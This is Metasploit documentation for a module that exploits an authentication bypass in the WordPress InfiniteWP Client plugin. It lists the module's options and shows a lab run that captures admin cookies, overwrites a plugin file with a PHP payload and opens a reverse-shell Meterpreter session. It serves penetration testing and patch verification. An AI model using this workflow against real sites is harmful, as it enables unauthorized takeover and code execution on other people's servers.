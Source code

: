 ## Introduction

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

## Setup

Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
and follow <https://wordpress.org/plugins/iwp-client/#installation>.

## Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Usage

```
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C44ecac44335ad633ea98045a7085c4947fee015b700b8b7d9463dd44d2388bb2; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C240d956e7a43f2ed3193171df429c8a8fb9ba3bac2f9805cdf88789f90a186df;
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58534) at 2020-01-18 14:50:39 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 4e8791809581
OS          : Linux 4e8791809581 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
